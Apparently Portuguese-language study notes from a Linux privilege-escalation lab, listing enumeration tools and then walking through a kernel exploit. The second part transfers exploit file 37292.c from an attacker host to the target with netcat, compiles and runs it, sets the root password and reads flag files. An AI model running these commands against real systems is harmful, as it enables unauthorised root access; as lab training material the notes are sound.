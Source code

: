 - Ferramentas
    - Várias ferramentas podem ajudar a economizar tempo durante o processo de enumeração. Essas ferramentas devem ser usadas apenas para economizar tempo, sabendo que podem não identificar todos os vetores de escalonamento de privilégios. Abaixo está uma lista de ferramentas populares de enumeração para Linux, com links para seus respectivos repositórios no Github.
    - O ambiente do sistema alvo irá influenciar a ferramenta que você poderá usar. Por exemplo, você não conseguirá executar uma ferramenta escrita em Python se ela não estiver instalada no sistema alvo. É por isso que seria melhor estar familiarizado com algumas ferramentas, em vez de depender de uma única ferramenta.
    - **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
    - **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
    - **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
    - **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
    - **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

---

## Privilege Escalation: Kernel Exploits

- Vamos ver primeiro onde podemos escrever
    
    ```bash
    find / -writable -type d 2>/dev/null
    ```
    
- Entao vamos para algumas dessa pastas, eu irei para o `tmp`
    
    ```bash
    cd /tmp
    ```
    
- Agora na nossa maquina vamos mandar o arquivo da CVE que encontramos
    
    ```bash
    sudo nc -nvlp 777 -s 10.8.154.250 < Downloads/37292.c
    ```
    
- Agora no alvo vamos baixar esse arquivo
    
    ```bash
    nc 10.8.154.250 777 > 37292.c
    ```
    
- Depois, conforme indicado no arquivo, precisamos conceder permissão de compilar e se precisar execução
    
    ```bash
    gcc 37292.c -o exploit
    ./exploit
    passwd
    #root
    #root
    su root
    find / -name flag*.txt
    cat /home/matt/flag1.txt
    ```
    